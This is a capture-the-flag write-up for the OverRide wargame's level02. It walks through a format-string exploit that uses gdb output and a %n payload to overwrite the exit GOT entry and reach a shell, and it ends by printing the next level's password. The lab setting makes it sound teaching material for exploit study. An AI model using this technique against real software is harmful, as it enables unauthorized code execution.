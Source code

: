 Here, again it's a string format exploit, but this time, we don't have access to the environment variables addresses :
>level02@OverRide:~$ gdb -q level02 
>Reading symbols from /home/users/level02/level02...(no debugging symbols found)...done.
>(gdb) b main
>Breakpoint 1 at 0x400818
>(gdb) r
>Starting program: /home/users/level02/level02 
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
>Breakpoint 1, 0x0000000000400818 in main ()
>(gdb) x/100x *environ
>Cannot access memory at address 0xffffffffffffe5b8

With a quick look at the main function, we realized that we could jump before the execution of `system("/bin/sh")`

>0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
>0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>

Our goal is to put `0x0000000000400a85` at a jump instruction.

>(gdb) disas exit
>Dump of assembler code for function exit@plt:
>0x0000000000400710 <+0>:	jmpq   *0x200b12(%rip)        # 0x601228 <exit@got.plt>
>0x0000000000400716 <+6>:	pushq  $0xa
>0x000000000040071b <+11>:	jmpq   0x400660
>End of assembler dump.

We first tried to overwrite the value of `0x200b12` but we couldn't make it work. We think that this address is stored inside a register, so we don't have the rights to overwrite here.
But looking into the comment of the same line, we see an other address.

>(gdb) x/gx 0x601228
>0x601228 <exit@got.plt>:	0x0000000000400716

It looks like the `eip` of the `jmpq` so we tried to overwrite this one.
First, we need the decimal value of the targeted address. : `0x0000000000400a85 = 4196997`
We then find the index of the argument to use the string format exploit : (we use %p instead of %x that we used previously, because it appears that we have 64bits addresses here)

>level02@OverRide:~$ ( python -c 'print("%p " * 10)'; python -c 'print("AAAABBBB")'; cat ) | ./level02
>===== [ Secure Access System v1.0 ] =====
>/***************************************\
>| You must login to access this system. |
>\**************************************/
>--[ Username: --[ Password: *****************************************
>0x7fffffffe3d0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 0x4242424241414141 (nil) (nil)  does not have access!

>level02@OverRide:~$ ( python -c 'print("%8$p")'; python -c 'print("AAAABBBB")'; cat ) | ./level02
>===== [ Secure Access System v1.0 ] =====
>/***************************************\
>| You must login to access this system. |
>\**************************************/
>--[ Username: --[ Password: *****************************************
>0x4242424241414141 does not have access!

So now, we need to write the correct number inside the address:

```bash
( python -c 'print("%4196997x" + "%8$n")'; python -c 'print("\x28\x12\x60\x00")'; cat ) | ./level02
                                                                whoami
Segmentation fault (core dumped)
```

We got a segfault, strange.
We use `dmesg` to have more infos about this segfault :

```bash
[11031.533103] level02[3052]: segfault at a00601228 ip 00007ffff7a6827c sp 00007fffffffd2c0 error 6 in libc-2.15.so[7ffff7a1c000+1b4000]

```

Since it's 64bits addresses, when we put only 4 bytes, there is some leftovers that make the exploit writing on a bad address.
Let's fix this :

```bash
( python -c 'print("%4196997x" + "%8$n")'; python -c 'print("\x28\x12\x60\x00\x00\x00\x00\x00")'; cat ) | ./level02

         ffffe3d0 does not have access!
whoami
level03
cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

```

```bash
su level03
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```